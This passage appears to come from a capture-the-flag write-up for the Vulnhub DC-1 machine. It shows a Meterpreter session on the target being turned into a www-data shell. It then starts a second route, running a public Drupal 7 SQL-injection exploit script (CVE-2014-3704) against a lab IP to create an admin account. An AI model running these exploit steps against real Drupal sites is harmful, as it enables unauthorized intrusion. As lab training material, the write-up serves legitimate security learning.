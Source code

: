 ```bash


```
Now let's check some system information with Metasploit.
```bash
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > 
```
Now let's have an interactive shell via the meterprester.
```
meterpreter > shell
Process 4268 created.
Channel 0 created.
whoami
www-data

```
From here the attack could be the same as the manual exploitation.

----
## Alternative 2 SQL Injection Drupal + reverse shell

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-1]
└─$ python 34992.py -t http://10.0.2.30 -u emvee -p password

  ______                          __     _______  _______ _____
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |
 |:  1    /          |__|                 |   |  |:  1   | |:  |
 |::.. . /                                |   |  |::.. . | |::.|
 `------'                                 `---'  `-------' `---'
  _______       __     ___       __            __   __
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|
 |::.. . |            |::.|
 `-------'            `---'

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

                          Discovered by:

                          Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
```
